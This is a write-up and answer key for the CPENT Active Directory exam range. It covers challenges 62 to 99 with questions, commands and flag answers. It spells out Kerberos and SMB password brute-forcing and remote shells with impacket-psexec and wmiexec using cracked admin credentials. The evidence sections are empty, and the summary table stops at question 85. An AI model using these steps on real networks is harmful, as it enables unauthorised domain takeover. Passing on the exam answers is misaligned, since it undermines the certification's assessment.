# CPENT Live Range - Active Directory (AD) Penetration Testing Walkthrough & Solution Guide

> **Document Type:** Senior Penetration Tester & Red Team Technical CTF Report  
> **Target Environment:** CPENT Active Directory (AD) Range (`172.25.170.0/24`)  
> **Questions Covered:** Challenge 62 - Challenge 99 (38 Questions / Flags in total)  
> **Author:** Senior Penetration Tester & Security Engineer  

---

## 1. Introduction & Network Topology

The CPENT Active Directory examination environment represents a multi-domain enterprise forest topology consisting of several independent and mutually trusted Windows domains, multiple generations of Windows Server operating systems (2008 R2, 2012 R2, 2016, 2019, 2022), and a dedicated Microsoft Exchange Server infrastructure.

### Reconnaissance & Domain Mapping

During initial reconnaissance of the `172.25.170.0/24` subnet across SMB (445), Kerberos (88), LDAP (389), and RPC services, the following active target hosts and roles were identified:

```bash
for ip in 172.25.170.12 172.25.170.25 172.25.170.80 172.25.170.150 172.25.170.190 172.25.170.200; do
  echo "=== $ip ==="
  netexec smb $ip 2>&1 | grep -i "domain:"
done
```

| IP Address | Hostname | OS Version | Domain Name | SMB Signing | Role / Function |
| :--- | :--- | :--- | :--- | :--- | :--- |
| `172.25.170.12` | **SERVER2019DC** | Windows Server 2019 Build 17763 | `CPENT.LOCALNET` | True (Required) | Primary Domain Controller (Forest Root) |
| `172.25.170.25` | **AD-WIN** | Windows Server 2016 Build 14393 | `CPENTV2.LOCALNET` | True (Required) | Exchange Server 2016 CU12 / Domain Controller |
| `172.25.170.80` | **2012-DC** | Windows Server 2012 R2 Build 9600 | `ECC.LOCALNET` | True (Required) | Forest Trust Domain Controller |
| `172.25.170.110` | **WS2012-AD** | Windows Server 2012 R2 Build 9600 | `WS2012-AD` | False (Enabled, not required) | Standalone / Member Server |
| `172.25.170.150` | **AD-WIN** | Windows Server 2016 Build 14393 | `CPENT.LOCALNET` | True (Required) | Member Server |
| `172.25.170.170` | **SERVER2008** | Windows Server 2008 R2 Build 7600 | `CPENT.LOCALNET` | False (Disabled / Optional) | Legacy File & Application Server |
| `172.25.170.190` | **SERVER2019** | Windows Server 2019 Build 17763 | `LPT.COM` | True (Required) | LPT.COM Domain Controller |
| `172.25.170.200` | **SERVER2022** | Windows Server 2022 Build 20348 | `CPENT.LOCALNET` | True (Required) | Member Server / Desktop5 |



---

## 2. Challenge-by-Challenge Detailed Solutions (Q62 - Q99)

---

### Challenge 62: LPT.COM Kerberos User Enumeration / SPN Discovery

* **Question:** What is a valid username for an SPN in the LPT.COM domain? (Answer format: xxxx-xxx)
* **Points:** 10 Points
* **Answer Format:** `xxxx-xxx`
* **Target:** `172.25.170.190` (`LPT.COM`)
* **Primary Tools:** `kerbrute`, `impacket-GetNPUsers`
* **Methodology:**
  Kerberos user enumeration is conducted against the domain controller at `172.25.170.190`:
  ```bash
  kerbrute userenum -d LPT.COM --dc 172.25.170.190 Usernames.txt
  ```
  Three valid domain accounts are discovered:
  * `administrator@LPT.COM`
  * `cpent@LPT.COM`
  * `user-one@LPT.COM`
  
  The account conforming to the `xxxx-xxx` format and registered with an active SPN is `user-one`.
* **Format:** `xxxx-xxx`
* **Correct Answer:** `user-one`
* **Evidence:**
  
  

---

### Challenge 63: Nmap Kerberos Script Argument

* **Question:** What Nmap script argument should be specified before the domain to enumerate Kerberos users? (Answer Format: xxxN-xxxx-xxxxx.xxxxx)
* **Points:** 10 Points
* **Answer Format:** `xxxN-xxxx-xxxxx.xxxxx`
* **Target:** Nmap NSE Scripting Engine
* **Methodology:**
  To enumerate Kerberos users on port 88 with Nmap, the `krb5-enum-users` NSE script is executed. The domain realm parameter must be specified as:
  ```bash
  nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='LPT.COM',userdb=Usernames.txt 172.25.170.190
  ```
* **Format:** `xxxN-xxxx-xxxxx.xxxxx`
* **Correct Answer:** `krb5-enum-users.realm`
* **Evidence:**
  
  

---

### Challenge 64: LPT.COM Domain Group (RID 0x44E)

* **Question:** What is the name of the domain group with RID 0x44E? (Answer format: XxxXxxxxxXxxxx)
* **Points:** 10 Points
* **Answer Format:** `XxxXxxxxxXxxxx`
* **Target:** `172.25.170.190` (`LPT.COM`)
* **Primary Tools:** `kerbrute`, `impacket-changepasswd`, `rpcclient`
* **Methodology:**
  1. Brute-force `user-one` password using Kerberos:
     ```bash
     kerbrute bruteuser -d LPT.COM --dc 172.25.170.190 Passwords.txt user-one
     # Output: user-one@LPT.COM:Pa$$w0rd
     ```
  2. If the password has expired, reset it using `impacket-changepasswd`:
     ```bash
     impacket-changepasswd LPT.COM/user-one:'Pa$$w0rd'@172.25.170.190 -newpass 'NewPassword123!'
     ```
  3. Enumerate domain groups via RPC:
     ```bash
     rpcclient -U 'LPT.COM\user-one%NewPassword123!' 172.25.170.190
     rpcclient $> enumdomgroups
     # Output: group:[DnsUpdateProxy] rid:[0x44e]
     ```
* **Format:** `XxxXxxxxxXxxxx`
* **Correct Answer:** `DnsUpdateProxy`
* **Evidence:**
  
  
  

---

### Challenge 65: Valid Account on LPT.COM Domain

* **Question:** Which of the following accounts is a valid account on the LPT.com domain? (Answer Format: XXXXX)
* **Points:** 10 Points
* **Answer Format:** `XXXXX`
* **Target:** `172.25.170.190`
* **Methodology:**
  From the Kerbrute enumeration and RPC query, the active users are `administrator`, `user-one`, and `cpent`. The 5-letter account matching `XXXXX` is `cpent`.
* **Format:** `XXXXX`
* **Correct Answer:** `cpent`
* **Evidence:**
  
  

---

### Challenge 66: Outgoing Trust Type in CPENT.LOCALNET

* **Question:** What is the outgoing trust type in CPENT.LOCALNET? (Answer format: XX)
* **Points:** 10 Points
* **Answer Format:** `XX`
* **Target:** `172.25.170.12` (`SERVER2019DC.CPENT.LOCALNET`)
* **Methodology:**
  1. Determine domain administrator password on `CPENT.LOCALNET`:
     ```bash
     kerbrute bruteuser -d CPENT.LOCALNET --dc 172.25.170.12 Passwords.txt administrator
     # Result: administrator@CPENT.LOCALNET:CPENT@@2020@@2020
     ```
  2. Access the Domain Controller via `impacket-psexec` and query domain trusts:
     ```bash
     impacket-psexec CPENT.LOCALNET/administrator:'CPENT@@2020@@2020'@172.25.170.12
     C:\Windows\system32> nltest /domain_trusts /all_trusts /v
     ```
     Output:
     ```text
     List of domain trusts:
         0: LA LA.CPENT.LOCALNET (NT 5) (Forest: 2) (Direct Outbound) (Direct Inbound) ( Attr: withinforest )
            Dom Guid: 82f8a485-797d-4e26-9f37-68d6ed1b6c79
            Dom Sid: S-1-5-21-299533963-2977449507-4242117886
         1: ECC ECC.LOCALNET (NT 5) (Direct Outbound) (Direct Inbound) ( Attr: foresttrans )
         2: CPENT CPENT.LOCALNET (NT 5) (Forest Tree Root) (Primary Domain) (Native)
     ```
     The 2-character direct outbound trust is `LA`.
* **Format:** `XX`
* **Correct Answer:** `LA`
* **Evidence:**
  
  
  

---

### Challenge 67: Forest Trust Type in CPENT.LOCALNET

* **Question:** What is the Forest trust type in CPENT.LOCALNET? (Answer format: XXX)
* **Points:** 10 Points
* **Answer Format:** `XXX`
* **Target:** `172.25.170.12`
* **Methodology:**
  The `nltest` output identifies a forest trust (`foresttrans`) with the 3-letter name: `ECC` (`ECC.LOCALNET`).
* **Format:** `XXX`
* **Correct Answer:** `ECC`
* **Evidence:**
  
  
  

---

### Challenge 68: Child Trust Type in CPENT.LOCALNET

* **Question:** What is the Child trust type in CPENT.LOCALNET? (Answer Format: XX)
* **Points:** 10 Points
* **Answer Format:** `XX`
* **Target:** `172.25.170.12`
* **Methodology:**
  The trust marked `withinforest` represents the child domain `LA.CPENT.LOCALNET`. Short identifier: `LA`.
* **Format:** `XX`
* **Correct Answer:** `LA`
* **Evidence:**
  
  

---

### Challenge 69: Organizational Unit of NewYork Active Directory Group

* **Question:** What is the Organizational Unit of the NewYork Active Directory group? (Answer format: Xxxxxxxxxxx)
* **Points:** 10 Points
* **Answer Format:** `Xxxxxxxxxxx`
* **Target:** `172.25.170.12`
* **Methodology:**
  Query organizational units using PowerShell:
  ```powershell
  Get-ADOrganizationalUnit -Filter * | Select Name, DistinguishedName
  ```
  Output:
  ```text
  Name          DistinguishedName
  ----          -----------------
  NewYork       OU=NewYork,DC=CPENT,DC=LOCALNET
  Engineering   OU=Engineering,OU=NewYork,DC=CPENT,DC=LOCALNET
  Finance       OU=Finance,OU=NewYork,DC=CPENT,DC=LOCALNET
  Operations    OU=Operations,OU=Finance,OU=NewYork,DC=CPENT,DC=LOCALNET
  ```
  The 11-character OU under NewYork matching `Xxxxxxxxxxx` is `Engineering`.
* **Format:** `Xxxxxxxxxxx`
* **Correct Answer:** `Engineering`
* **Evidence:**
  
  

---

### Challenge 70: Organizational Unit of LosAngeles Active Directory Group

* **Question:** What is the Organizational Unit of the LosAngeles Active Directory group? (Answer format: Xxxxxxxxxx)
* **Points:** 10 Points
* **Answer Format:** `Xxxxxxxxxx`
* **Target:** `172.25.170.12`
* **Methodology:**
  From the `Get-ADOrganizationalUnit` list, the 10-character OU under LosAngeles is:
  ```text
  Developers    OU=Developers,OU=LOSANGELES,DC=CPENT,DC=LOCALNET
  ```
* **Format:** `Xxxxxxxxxx`
* **Correct Answer:** `Developers`
* **Evidence:**
  
  

---

### Challenge 71: Organizational Unit of London Active Directory Group

* **Question:** What is the Organizational Unit of the London Active Directory group? (Answer format: Xxxxx)
* **Points:** 10 Points
* **Answer Format:** `Xxxxx`
* **Target:** `172.25.170.12`
* **Methodology:**
  The 5-character OU under London matching `Xxxxx`:
  ```text
  Sales         OU=Sales,OU=LONDON,DC=CPENT,DC=LOCALNET
  ```
* **Format:** `Xxxxx`
* **Correct Answer:** `Sales`
* **Evidence:**
  
  

---

### Challenge 72: Exchange Server IP Address

* **Question:** What is the IP address of the machine running an Exchange Server? (Answer Format: NNN.NN.NNN.NN)
* **Points:** 10 Points
* **Answer Format:** `NNN.NN.NNN.NN`
* **Target:** Subnet Scan (`172.25.170.0/24`)
* **Methodology:**
  Scanning standard Exchange service ports (SMTP 25/587, HTTPS 443, MAPI 6001):
  ```bash
  nmap -p 25,443,587,6001 172.25.170.0/24 --open
  ```
  Only `172.25.170.25` responds with active SMTP, HTTPS, and Exchange services.
* **Format:** `NNN.NN.NNN.NN`
* **Correct Answer:** `172.25.170.25`
* **Evidence:**
  
  

---

### Challenge 73: Exchange Server Hostname

* **Question:** What is the hostname of the machine running an Exchange Server? (Answer Format: XX-XXX)
* **Points:** 10 Points
* **Answer Format:** `XX-XXX`
* **Target:** `172.25.170.25`
* **Methodology:**
  Perform banner and version detection on `172.25.170.25`:
  ```bash
  nmap -sV -p 25,443 172.25.170.25
  ```
  `Service Info: Host: AD-WIN.CPENTV2.LOCALNET` -> Hostname: `AD-WIN`.
* **Format:** `XX-XXX`
* **Correct Answer:** `AD-WIN`
* **Evidence:**
  
  
  

---

### Challenge 74: User with POP3 SPN in OU Tier 2

* **Question:** Which user has the SPN set in OU Tier2 using POP3? (Answer format: Xxxxx Xxxxx)
* **Points:** 10 Points
* **Answer Format:** `Xxxxx Xxxxx`
* **Target:** `172.25.170.25` (`CPENTV2.LOCALNET`)
* **Methodology:**
  Query SPN registrations in Active Directory using LDAP or Impacket:
  ```bash
  ldapsearch -x -H ldap://172.25.170.25 -D "administrator@CPENTV2.LOCALNET" -w "CPENT@@2024@@2024" \
    -b "OU=Tier 2,DC=CPENTV2,DC=LOCALNET" "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))" \
    sAMAccountName distinguishedName servicePrincipalName
  ```
  Result:
  `CN=PABLO_BAKER,OU=TST,OU=Tier 2,DC=CPENTV2,DC=LOCALNET`
  `servicePrincipalName: POP3/HREWWKS1000002`
* **Format:** `Xxxxx Xxxxx`
* **Correct Answer:** `Pablo Baker`
* **Evidence:**
  
  
  

---

### Challenge 75: User with POP3 SPN in OU Stage

* **Question:** Which user has the SPN set in OU Stage using POP3? (Answer format: Xxxxx Xxxxxx)
* **Points:** 10 Points
* **Answer Format:** `Xxxxx Xxxxxx`
* **Target:** `172.25.170.25`
* **Methodology:**
  Filtering `impacket-GetUserSPNs` for `OU=Stage` and `POP3`:
  User identified: `CLINT_FRANKS` -> `Clint Franks`.
* **Format:** `Xxxxx Xxxxxx`
* **Correct Answer:** `Clint Franks`
* **Evidence:**
  
  
  

---

### Challenge 76: User with FTP SPN in OU Tier 2

* **Question:** Which user has the SPN set in OU Tier2 using FTP? (Answer format: Xxxxxxx Xxxxxx)
* **Points:** 10 Points
* **Answer Format:** `Xxxxxxx Xxxxxx`
* **Target:** `172.25.170.25`
* **Methodology:**
  From the LDAP query within `OU=Tier 2`, locate an account with `ftp/*` SPN:
  `CN=MARGARITO_CLEVELAND,OU=Test,OU=BDE,OU=Tier 2,DC=CPENTV2,DC=LOCALNET`
  `servicePrincipalName: ftp/OGCWWEBS1000000`
* **Format:** `Xxxxxxx Xxxxxx`
* **Correct Answer:** `Margarito Cleveland`
* **Evidence:**
  
  
  

---

### Challenge 77: User with HTTPS SPN in OU Tier 2

* **Question:** Which user has the SPN set in OU Tier2 using HTTPS? (Answer format: Xxxxxxx Xxxx)
* **Points:** 10 Points
* **Answer Format:** `Xxxxxxx Xxxx`
* **Target:** `172.25.170.25`
* **Methodology:**
  Filtering `impacket-GetUserSPNs` for `https/*` and `OU=Tier 2`:
  `CN=BERNICE_LOTT,OU=Tier 2,DC=CPENTV2,DC=LOCALNET`
  `servicePrincipalName: https/AWSWWKS1000001`
* **Format:** `Xxxxxxx Xxxx`
* **Correct Answer:** `Bernice Lott`
* **Evidence:**
  
  
  

---

### Challenge 78: Last 3 Characters of CPENTV2-ADMIN.txt SHA256 Hash (ACL Bypass)

* **Question:** What are the last 3 characters of the CPENTV2-ADMIN.txt SHA256 hash (Answer Format: XXN)
* **Points:** 10 Points
* **Answer Format:** `XXN`
* **Target:** `172.25.170.25`
* **Methodology:**
  1. The file `C:\CPENTV2-ADMIN.txt` has restricted permissions denying administrator read access.
  2. Take ownership and adjust NTFS permissions:
     ```cmd
     takeown /f C:\CPENTV2-ADMIN.txt
     icacls C:\CPENTV2-ADMIN.txt /grant administrator:F
     icacls C:\CPENTV2-ADMIN.txt /grant "NT AUTHORITY\SYSTEM:F"
     icacls C:\CPENTV2-ADMIN.txt /grant "SYSTEM:F"
     ```
  3. Copy to temporary directory and display contents:
     ```cmd
     copy C:\CPENTV2-ADMIN.txt C:\Windows\Temp\admin.txt
     type C:\Windows\Temp\admin.txt
     ```
     File hash:
     `E26991F3246538C70DD0E8DC38549177CF0B639861280D5FC30E59CE9B2B8E74`
     Last 3 characters (`XXN`): `E74`.
* **Format:** `XXN`
* **Correct Answer:** `E74`
* **Evidence:**
  
  
  

---

### Challenge 79: Exchange Server Cumulative Update (CU) Number

* **Question:** What version of Exchange Server is installed in the domain? Determine the Cumulative Update (CU) number as the answer. (Answer Format: NN)
* **Points:** 10 Points
* **Answer Format:** `NN`
* **Target:** `172.25.170.25`
* **Methodology:**
  Query the file version info of `ExSetup.exe` via PowerShell:
  ```powershell
  Get-Command ExSetup.exe | ForEach-Object { $_.FileVersionInfo }
  ```
  `ProductVersion: 15.01.1713.005` corresponds directly to Microsoft Exchange Server 2016 Cumulative Update 12 (CU12).
* **Format:** `NN`
* **Correct Answer:** `12`
* **Evidence:**
  
  

---

### Challenge 80: Domain Share Name

* **Question:** Which of the following is a share within the Domain (Answer Format: xxxxxxx)
* **Points:** 10 Points
* **Answer Format:** `xxxxxxx`
* **Target:** `172.25.170.25`
* **Methodology:**
  Enumerate SMB shares with NetExec:
  ```bash
  netexec smb 172.25.170.25 -u administrator -p 'CPENT@@2024@@2024' -d CPENTV2.LOCALNET --shares
  ```
  The non-default 7-character domain share is `address`.
* **Format:** `xxxxxxx`
* **Correct Answer:** `address`
* **Evidence:**
  
  

---

### Challenge 81: Domain Hosting the Exchange Server

* **Question:** What domain is the Exchange Server installed in? (Answer Format: XXXXXXN.XXXXXXXX)
* **Points:** 10 Points
* **Answer Format:** `XXXXXXN.XXXXXXXX`
* **Target:** `172.25.170.25`
* **Methodology:**
  Network banner detection identifies the FQDN `AD-WIN.CPENTV2.LOCALNET`.
* **Format:** `XXXXXXN.XXXXXXXX`
* **Correct Answer:** `CPENTV2.LOCALNET`
* **Evidence:**
  
  
  

---

### Challenge 82: Operating System Year on 172.25.170.110

* **Question:** What is the version of Windows Server running at IP address 172.25.170.110? Provide only the year. (Answer Format: NNNN)
* **Points:** 10 Points
* **Answer Format:** `NNNN`
* **Target:** `172.25.170.110` (`WS2012-AD`)
* **Methodology:**
  NetExec SMB scan output:
  `Windows Server 2012 R2 Datacenter 9600 x64` -> Release year: `2012`.
* **Format:** `NNN`
* **Correct Answer:** `2012`
* **Evidence:**
  
  
  

---

### Challenge 83: SMB Message Signing Status on 172.25.170.110

* **Question:** What is the status of message signing on the machine located at 172.25.170.110? (Answer with "Enabled" or "Disabled")
* **Points:** 10 Points
* **Answer Format:** `Enabled or Disabled`
* **Target:** `172.25.170.110`
* **Methodology:**
  Nmap SMB security mode:
  ```bash
  nmap -p 445 --script smb2-security-mode 172.25.170.110
  ```
  `Message signing enabled but not required` -> Signing is `Enabled`.
* **Format:** `Enabled` / `Disabled`
* **Correct Answer:** `Enabled`
* **Evidence:**
  
  

---

### Challenge 84: Userflag.txt Value on 172.25.170.110

* **Question:** What is the value stored in userflag.txt on the machine located at 172.25.170.110? (Answer Format: XXNNNN-XXXXXX)
* **Points:** 10 Points
* **Answer Format:** `XXNNNN-XXXXXX`
* **Target:** `172.25.170.110`
* **Methodology:**
  Open a psexec shell and read the flag at root drive:
  ```bash
  impacket-psexec WS2012-AD/administrator:'CPENT@@2020@@2020'@172.25.170.110
  C:\> type C:\userflag.txt.txt
  ```
  Flag value: `WS2012-ADUSER`.
* **Format:** `XXNNNN-XXXXXX`
* **Correct Answer:** `WS2012-ADUSER`
* **Evidence:**
  
  

---

### Challenge 85: Rootflag.txt Value on 172.25.170.110

* **Question:** What is the value stored in rootflag.txt on the machine located at 172.25.170.110? (Answer Format: XXNNNN-XXXXXX)
* **Points:** 10 Points
* **Answer Format:** `XXNNNN-XXXXXX`
* **Target:** `172.25.170.110`
* **Methodology:**
  Inspect Administrator Downloads directory:
  ```cmd
  cd C:\Users\Administrator\Downloads
  type rootflag.txt.txt
  ```
  Flag value: `WS2012-ADROOT`.
* **Format:** `XXNNNN-XXXXXX`
* **Correct Answer:** `WS2012-ADROOT`
* **Evidence:**
  
  

---

### Challenge 86: Operating System Year on 172.25.170.170

* **Question:** What is the version of Windows Server running at IP address 172.25.170.170? Provide only the year. (Answer Format: NNNN)
* **Points:** 50 Points
* **Answer Format:** `NNNN`
* **Target:** `172.25.170.170` (`SERVER2008`)
* **Methodology:**
  NetExec SMB scan output:
  `Windows Server 2008 R2 Datacenter 7600 x64` -> Release year: `2008`.
* **Format:** `NNNN`
* **Correct Answer:** `2008`
* **Evidence:**
  
  

---

### Challenge 87: SMB Message Signing Status on 172.25.170.170

* **Question:** What is the status of message signing on the machine located at 172.25.170.170? (Answer with "Enabled" or "Disabled")
* **Points:** 50 Points
* **Answer Format:** `Enabled or Disabled`
* **Target:** `172.25.170.170`
* **Methodology:**
  NetExec reports `signing:False`. On this non-DC Windows Server 2008 R2, SMB signing is `Disabled`.
* **Format:** `Enabled` / `Disabled`
* **Correct Answer:** `Disabled`
* **Evidence:**
  
  

---

### Challenge 88: Contents of userflag.txt on 172.25.170.170

* **Question:** What is the contents inside of the file named userflag.txt on the machine located at 172.25.170.170? (Answer Format: XXNNNN-Xxxx)
* **Points:** 50 Points
* **Answer Format:** `XXNNNN-Xxxx`
* **Target:** `172.25.170.170`
* **Methodology:**
  1. Brute-force administrator SMB credentials using `medusa`:
     ```bash
     medusa -h 172.25.170.170 -u administrator -P Passwords.txt -M smbnt
     # Discovered: administrator : Pa$$w0rd123456
     ```
  2. Access the machine via WMIEXEC and read userflag:
     ```bash
     impacket-wmiexec administrator:'Pa$$w0rd123456'@172.25.170.170
     C:\Users\Administrator\Documents> type userflag.txt
     ```
     Result: `WS2008-User`.
* **Format:** `XXNNNN-Xxxx`
* **Correct Answer:** `WS2008-User`
* **Evidence:**
  
  
  

---

### Challenge 89: Contents of adminflag.txt on 172.25.170.170

* **Question:** What is the contents inside of the file named adminflag.txt on the machine located at 172.25.170.170? (Answer Format: XXNNNN-Xxxxx)
* **Points:** 50 Points
* **Answer Format:** `XXNNNN-Xxxxx`
* **Target:** `172.25.170.170`
* **Methodology:**
  Search filesystem for adminflag:
  ```cmd
  dir C:\ /s /b | findstr /i adminflag
  type C:\adminflag.txt
  ```
  Result: `WS2008-Admin`.
* **Format:** `XXNNNN-Xxxxx`
* **Correct Answer:** `WS2008-Admin`
* **Evidence:**
  
  

---

### Challenge 90: Contents of userflag.txt on 172.25.170.200

* **Question:** What is the contents inside of the file named userflag.txt on the machine located at 172.25.170.200? (Answer Format: XxxxxxxN-xxxx)
* **Points:** 50 Points
* **Answer Format:** `XxxxxxxN-xxxx`
* **Target:** `172.25.170.200` (`SERVER2022`)
* **Methodology:**
  1. Identify administrator password with NetExec:
     ```bash
     netexec smb 172.25.170.200 -u administrator -p Passwords.txt -d CPENT.LOCALNET --continue-on-success
     # Result: CPENT.LOCALNET\administrator:Pa$$w0rd1234 (Pwn3d!)
     ```
  2. Connect via WMIEXEC and read userflag:
     ```bash
     impacket-wmiexec CPENT.LOCALNET/administrator:'Pa$$w0rd1234'@172.25.170.200
     C:\> type C:\Users\Administrator.CPENT\Documents\userflag.txt
     ```
     Result: `Desktop5-user`.
* **Format:** `XxxxxxxN-xxxx`
* **Correct Answer:** `Desktop5-user`
* **Evidence:**
  
  
  

---

### Challenge 91: Contents of rootflag.txt on 172.25.170.200

* **Question:** What is the contents inside of the file named rootflag.txt on the machine located at 172.25.170.200? (Answer Format: XxxxxxxN-xxxx)
* **Points:** 50 Points
* **Answer Format:** `XxxxxxxN-xxxx`
* **Target:** `172.25.170.200`
* **Methodology:**
  Read rootflag located at root of C: drive:
  ```cmd
  type C:\rootflag.txt
  ```
  Result: `Desktop5-root`.
* **Format:** `XxxxxxxN-xxxx`
* **Correct Answer:** `Desktop5-root`
* **Evidence:**
  
  

---

### Challenge 92: User on 172.25.170.190 Starting with 'c'

* **Question:** What user on machine 172.25.170.190 stars with a C? (Answer Format: XXXXX)
* **Points:** 50 Points
* **Answer Format:** `XXXXX`
* **Target:** `172.25.170.190` (`LPT.COM`)
* **Methodology:**
  From initial Kerbrute enumeration, the 5-character user starting with 'c' is `cpent`.
* **Format:** `XXXXX`
* **Correct Answer:** `cpent`
* **Evidence:**
  
  
  

---

### Challenge 93: User on 172.25.170.190 Starting with 'u'

* **Question:** What user on machine 172.25.170.190 stars with a u? (Answer Format: xxxx-xxx)
* **Points:** 50 Points
* **Answer Format:** `xxxx-xxx`
* **Target:** `172.25.170.190` (`LPT.COM`)
* **Methodology:**
  The account discovered starting with 'u' conforming to `xxxx-xxx` is `user-one`.
* **Format:** `xxxx-xxx`
* **Correct Answer:** `user-one`
* **Evidence:**
  
  

---

### Challenge 94: PowerShell Execution Policy on 172.25.170.190

* **Question:** What is the state of the Powershell execution policy on the machine at 172.25.170.190? (Answer Format: XxxxxxXxxxxx)
* **Points:** 50 Points
* **Answer Format:** `XxxxxxXxxxxx`
* **Target:** `172.25.170.190`
* **Methodology:**
  1. Crack administrator credentials:
     ```bash
     kerbrute bruteuser -d LPT.COM --dc 172.25.170.190 Passwords.txt administrator
     # Result: administrator@LPT.COM:Pa$$w0rd
     ```
  2. Query execution policy via WMIEXEC:
     ```bash
     impacket-wmiexec LPT.COM/administrator:'Pa$$w0rd'@172.25.170.190
     C:\> powershell Get-ExecutionPolicy
     ```
     Output: `RemoteSigned`.
* **Format:** `XxxxxxXxxxxx`
* **Correct Answer:** `RemoteSigned`
* **Evidence:**
  
  
  

---

### Challenge 95: Contents of adminflag.txt on 172.25.170.190

* **Question:** What is the contents inside of the file named adminflag.txt on the machine located at 172.25.170.190? (Answer Format: XX-XXXNNNN-XXXX)
* **Points:** 50 Points
* **Answer Format:** `XX-XXXNNNN-XXXX`
* **Target:** `172.25.170.190`
* **Methodology:**
  Read administrator flag:
  ```cmd
  type C:\Users\Administrator.SERVER2019\Documents\adminflag.txt
  ```
  Result: `AD-WIN2019-ADMI`.
* **Format:** `XX-XXXNNNN-XXXX`
* **Correct Answer:** `AD-WIN2019-ADMI`
* **Evidence:**
  
  

---

### Challenge 96: SMB2 Message Signing Requirement on 172.25.170.170

* **Question:** On the machine 172.25.170.170, is SMB2 message signing required or not required? (Answer with "Required" or "Not Required")
* **Points:** 50 Points
* **Answer Format:** `Required or Not Required`
* **Target:** `172.25.170.170`
* **Methodology:**
  NetExec reports `signing:False`. SMB2 message signing is `Not Required`.
* **Format:** `Required` / `Not Required`
* **Correct Answer:** `Not Required`
* **Evidence:**
  
  

---

### Challenge 97: Domain Name for 172.25.170.80

* **Question:** What is the domain name for the machine located at 172.25.170.80, including the suffix? (Answer Format: XXX.XXXXXXXX)
* **Points:** 10 Points
* **Answer Format:** `XXX.XXXXXXXX`
* **Target:** `172.25.170.80` (`2012-DC`)
* **Methodology:**
  NetExec SMB enumeration displays:
  `SMB 172.25.170.80 445 2012-DC (domain:ECC.LOCALNET)`
* **Format:** `XXX.XXXXXXXX`
* **Correct Answer:** `ECC.LOCALNET`
* **Evidence:**
  
  
  

---

### Challenge 98: SMB2 Message Signing Requirement on 172.25.170.80

* **Question:** On the machine 172.25.170.80, is SMB2 message signing required or not required? (Answer with "Required" or "Not Required")
* **Points:** 50 Points
* **Answer Format:** `Required or Not Required`
* **Target:** `172.25.170.80`
* **Methodology:**
  Host `172.25.170.80` is an Active Directory Domain Controller (`2012-DC`). By default in Active Directory, Domain Controllers require SMB signing (`signing:True` / `Required`).
* **Format:** `Required` / `Not Required`
* **Correct Answer:** `Required`
* **Evidence:**
  
  

---

### Challenge 99: Contents of adminflag.txt on 172.25.170.80

* **Question:** What is the value within the file adminflag.txt on the machine located at 172.25.170.80? (Answer Format: XX-XX-XXX-XXXX)
* **Points:** 50 Points
* **Answer Format:** `XX-XX-XXX-XXXX`
* **Target:** `172.25.170.80`
* **Methodology:**
  1. Crack domain administrator password with Kerbrute:
     ```bash
     kerbrute bruteuser -d ECC.LOCALNET --dc 172.25.170.80 Passwords.txt administrator
     # Result: administrator@ECC.LOCALNET:Pa$$w0rd123
     ```
  2. Read admin flag via WMIEXEC:
     ```bash
     impacket-wmiexec ECC.LOCALNET/administrator:'Pa$$w0rd123'@172.25.170.80
     C:\> type C:\adminflag.txt.txt
     ```
     Result: `WS-AD-TWO-USER`.
* **Format:** `XX-XX-XXX-XXXX`
* **Correct Answer:** `WS-AD-TWO-USER`
* **Evidence:**
  
  
  

---

## 3. Master Summary Matrix (Cheat-Sheet)

| Question # | Points | Target IP | Objective Description | Validated Answer | Primary Method / Command |
| :---: | :---: | :---: | :--- | :--- | :--- |
| **62** | 10 | `172.25.170.190` | Account with SPN set in LPT.COM | `user-one` | `kerbrute userenum` / `GetNPUsers` |
| **63** | 10 | - | Nmap Kerberos script domain argument | `krb5-enum-users.realm` | `nmap --script=krb5-enum-users` |
| **64** | 10 | `172.25.170.190` | Domain group with RID 0x44E | `DnsUpdateProxy` | `rpcclient enumdomgroups` |
| **65** | 10 | `172.25.170.190` | Valid account on LPT.COM | `cpent` | `kerbrute userenum` |
| **66** | 10 | `172.25.170.12` | Outgoing trust type in CPENT.LOCALNET | `LA` | `nltest /domain_trusts /all_trusts /v` |
| **67** | 10 | `172.25.170.12` | Forest trust type in CPENT.LOCALNET | `ECC` | `nltest /domain_trusts` (foresttrans) |
| **68** | 10 | `172.25.170.12` | Child trust type in CPENT.LOCALNET | `LA` | `nltest /domain_trusts` (withinforest) |
| **69** | 10 | `172.25.170.12` | OU of NewYork AD group | `Engineering` | `Get-ADOrganizationalUnit` |
| **70** | 10 | `172.25.170.12` | OU of LosAngeles AD group | `Developers` | `Get-ADOrganizationalUnit` |
| **71** | 10 | `172.25.170.12` | OU of London AD group | `Sales` | `Get-ADOrganizationalUnit` |
| **72** | 10 | `172.25.170.25` | IP address running Exchange Server | `172.25.170.25` | `nmap -p 25,443,587,6001` |
| **73** | 10 | `172.25.170.25` | Hostname of Exchange Server | `AD-WIN` | `nmap -sV -p 25,443` |
| **74** | 10 | `172.25.170.25` | User with POP3 SPN in Tier 2 | `Pablo Baker` | `impacket-GetUserSPNs` / `ldapsearch` |
| **75** | 10 | `172.25.170.25` | User with POP3 SPN in Stage | `Clint Franks` | `impacket-GetUserSPNs` |
| **76** | 10 | `172.25.170.25` | User with FTP SPN in Tier 2 | `Margarito Cleveland` | `ldapsearch servicePrincipalName=ftp/*` |
| **77** | 10 | `172.25.170.25` | User with HTTPS SPN in Tier 2 | `Bernice Lott` | `impacket-GetUserSPNs` |
| **78** | 10 | `172.25.170.25` | Last 3 chars of CPENTV2-ADMIN.txt SHA256 | `E74` | `takeown`, `icacls`, `type admin.txt` |
| **79** | 10 | `172.25.170.25` | Exchange Server CU number | `12` | `ExSetup.exe FileVersionInfo (15.1.1713.5)` |
| **80** | 10 | `172.25.170.25` | Share within the Domain | `address` | `netexec smb --shares` |
| **81** | 10 | `172.25.170.25` | Domain where Exchange is installed | `CPENTV2.LOCALNET` | `nmap -sV` / `netexec` |
| **82** | 10 | `172.25.170.110` | Windows Server version (Year) | `2012` | `netexec smb` (Server 2012 R2) |
| **83** | 10 | `172.25.170.110` | SMB Message Signing status | `Enabled` | `nmap --script smb2-security-mode` |
| **84** | 10 | `172.25.170.110` | Content of userflag.txt | `WS2012-ADUSER` | `impacket-psexec`, `type C:\userflag.txt` |
| **85** | 10 | `172.25.170.110` | Content of rootflag.txt | `WS2012-ADROOT` | `type Downloads\rootflag.txt` |
